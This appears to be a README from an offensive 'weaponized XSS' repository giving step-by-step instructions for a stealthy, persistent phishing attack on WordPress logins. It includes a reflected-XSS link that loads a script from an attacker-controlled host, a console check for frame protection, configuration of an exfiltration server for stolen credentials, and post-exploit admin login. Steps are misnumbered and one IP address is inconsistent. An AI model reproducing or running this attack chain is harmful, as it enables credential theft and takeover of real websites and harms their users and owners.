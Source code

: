 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.10

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.10/wp-login.php";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginWP.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/phishLoginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

8. [post exploit] attacker logs into target WordPress site using obtained credentials

    http://192.168.5.19/administrator/

## Screenshots

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/IframeLogin/screenshots/WordPress_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/c2302029-d0ef-4450-b726-09add6cdaf2f
